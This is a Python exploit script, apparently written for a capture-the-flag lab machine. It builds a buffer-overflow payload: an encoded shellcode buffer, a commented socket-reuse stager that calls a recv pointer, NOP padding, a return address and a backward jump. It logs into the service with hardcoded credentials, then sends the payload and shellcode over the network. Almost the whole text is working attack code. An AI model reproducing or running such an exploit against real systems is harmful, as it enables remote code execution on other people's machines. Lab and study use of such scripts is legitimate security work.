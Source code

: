 ```python
    		buf += b"\x2d\x3a\xe0\x4a\x50\xb7\xb0\x03\x1e\x6a\x24\x27\x6a"
    		buf += b"\xb7\xcf\x7b\x7a\xbf\x2c\xcb\x7d\xee\xe3\x47\x24\x30"
    		buf += b"\x02\x8b\x5c\x79\x1c\xc8\x59\x33\x97\x3a\x15\xc2\x71"
    		buf += b"\x73\xd6\x69\xbc\xbb\x25\x73\xf9\x7c\xd6\x06\xf3\x7e"
    		buf += b"\x6b\x11\xc0\xfd\xb7\x94\xd2\xa6\x3c\x0e\x3e\x56\x90"
    		buf += b"\xc9\xb5\x54\x5d\x9d\x91\x78\x60\x72\xaa\x85\xe9\x75"
    		buf += b"\x7c\x0c\xa9\x51\x58\x54\x69\xfb\xf9\x30\xdc\x04\x19"
    		buf += b"\x9b\x81\xa0\x52\x36\xd5\xd8\x39\x5f\x1a\xd1\xc1\x9f"
    		buf += b"\x34\x62\xb2\xad\x9b\xd8\x5c\x9e\x54\xc7\x9b\xe1\x4e"
    		buf += b"\xbf\x33\x1c\x71\xc0\x1a\xdb\x25\x90\x34\xca\x45\x7b"
    		buf += b"\xc4\xf3\x93\x2c\x94\x5b\x4c\x8d\x44\x1c\x3c\x65\x8e"
    		buf += b"\x93\x63\x95\xb1\x79\x0c\x3c\x48\xea\x39\xcb\x42\xdf"
    		buf += b"\x55\xc9\x62\x1e\x1d\x44\x84\x4a\x71\x01\x1f\xe3\xe8"
   		buf += b"\x08\xeb\x92\xf5\x86\x96\x95\x7e\x25\x67\x5b\x77\x40"
    		buf += b"\x7b\x0c\x77\x1f\x21\x9b\x88\xb5\x4d\x47\x1a\x52\x8d"
    		buf += b"\x0e\x07\xcd\xda\x47\xf9\x04\x8e\x75\xa0\xbe\xac\x87"
    		buf += b"\x34\xf8\x74\x5c\x85\x07\x75\x11\xb1\x23\x65\xef\x3a"
    		buf += b"\x68\xd1\xbf\x6c\x26\x8f\x79\xc7\x88\x79\xd0\xb4\x42"
  		buf += b"\xed\xa5\xf6\x54\x6b\xaa\xd2\x22\x93\x1b\x8b\x72\xac"
   		buf += b"\x94\x5b\x73\xd5\xc8\xfb\x7c\x0c\x49\x1b\x9f\x84\xa4"
    		buf += b"\xb4\x06\x4d\x05\xd9\xb8\xb8\x4a\xe4\x3a\x48\x33\x13"
    		buf += b"\x22\x39\x36\x5f\xe4\xd2\x4a\xf0\x81\xd4\xf9\xf1\x83"

		recv = b""
		recv += b"\x54" 				# -> push esp
		recv += b"\x58" 				# -> pop eax
		recv += b"\x66\x05\x30\x02" 			# -> add ax, 0x230
		recv += b"\x66\x2d\xe8\x01" 			# -> sub ax, 0x1E8
		recv += b"\x8b\x30" 				# -> mov esi, dword [eax]
		recv += b"\x83\xec\x70" 			# -> sub esp, 0x70
		recv += b"\x31\xdb" 				# -> xor ebx, ebx
		recv += b"\x53" 				# -> push ebx 
		recv += b"\x66\x81\xc3\x10\x04" 		# -> add bx, 0x410
		recv += b"\x53" 				# -> push ebx
		recv += b"\x54"					# -> push esp
		recv += b"\x5b"					# -> pop ebx
		recv += b"\x66\x83\xc3\x70"			# -> add bx, 0x70
		recv += b"\x53"					# -> push ebx
		recv += b"\x56" 				# -> push esi
		recv += b"\xa1\xac\x82\x90\x71"			# -> mov eax, [0x719082ac]
		recv += b"\xff\xd0"				# -> call eax
    
		payload = recv + b"\x90"*(66 - len(recv)) + p32(0x719023A8) + b"\xeb\xb8" # -> jmp $-70

		r = remote("10.10.11.115", argv[1])

		r.sendlineafter(b"Username: ",self.__user)
		r.sendlineafter(b"Password: ",self.__password)
		r.sendlineafter(b"FullName:",self.__name)	
		r.sendlineafter(b"Input Your Code:",payload)
		sleep(1)
		r.sendline(buf)

autopwn = Exploit(b'alfiansyah', b'K3r4j@@nM4j@pAh!T', 'Vickry Alfiansyah')

def main():
	autopwn.socket_reuse()

if __name__ == '__main__':
	main()
```
 